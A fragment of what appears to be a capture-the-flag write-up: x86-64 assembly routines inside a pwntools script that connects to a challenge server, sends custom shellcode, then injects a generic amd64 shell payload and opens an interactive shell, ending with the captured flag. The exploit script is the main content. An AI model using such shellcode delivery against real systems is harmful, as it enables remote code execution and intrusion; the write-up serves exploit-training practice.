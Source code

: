 ```python=
    sub al, 0x30
check:
    add bl, al
    shl rbx, 4
    shr rax, 8
    add cl, 1
    cmp cl, dl
    jne loop
    shr rbx, 4
    ret

hex2str:    /* input = rax, output = rbx */
    xor rbx, rbx
    xor rdi, rdi
again:
    xor rdx, rdx
    mov ecx, 11
    sub ecx, 1
    div ecx
    mov bl, dl
    shl rbx, 8
    inc rdi
    cmp rdi, 3
    jne again
    shr rbx, 8
    ret
    '''
)

p = remote('140.112.31.97', 30202)
p.sendlineafter('code : ',shellcode)
p.sendlineafter('crashed', asm(shellcraft.amd64.sh()))
p.interactive()
```
>FLAG{beep_bo0op_b33p_be3p_boop}